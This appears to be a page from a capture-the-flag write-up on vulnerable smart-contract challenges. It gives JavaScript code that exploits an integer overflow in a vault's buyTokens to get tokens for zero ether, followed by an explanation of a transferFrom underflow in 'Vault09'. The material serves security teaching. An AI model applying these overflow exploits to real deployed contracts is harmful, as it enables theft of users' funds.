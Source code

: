 \documentclass[12pt]{article}
\begin{document}
\noindent
\begin{minipage}{\textwidth}
\begin{verbatim}
// Connect to the vault contract as the player
const playerVault = vault.connect(player);

// Calculate the token amount that will cause an overflow
// 2^238 is chosen because when multiplied by 1 ether (10^18), 
// it will overflow exactly to 0 in Solidity 0.7.6
const numTokens = BigInt(1) << BigInt(238);

// Call buyTokens with 0 ether value
// Due to integer overflow, numTokens * TOKEN_PRICE will be 0
await playerVault.buyTokens(numTokens, { value: 0 });

// Verify that we received the tokens
const playerBalance = await vault.tokenBalances(playerAddress);
console.log("Player token balance:", playerBalance.toString());

// Call breachVault to complete the challenge
await playerVault.breachVault();
\end{verbatim}
\end{minipage}

\subsection*{Vault09: Less Is More}

To breach \texttt{Vault09}, you need to exploit an integer underflow vulnerability in the \texttt{transferFrom} function. The key observation is that the contract checks if the message sender has enough tokens, but not whether the \texttt{from} address has enough tokens. This allows you to cause an underflow in the \texttt{tokenBalances[from] -= amount} operation.

First, deploy an attack contract that will interact with the vulnerable vault. Then, from your account (which starts with 1 token), approve the attack contract to spend tokens on your behalf. Next, have the attack contract call \texttt{transferFrom} to transfer more tokens than you actually have, causing an integer underflow in your token balance.
\end{document}
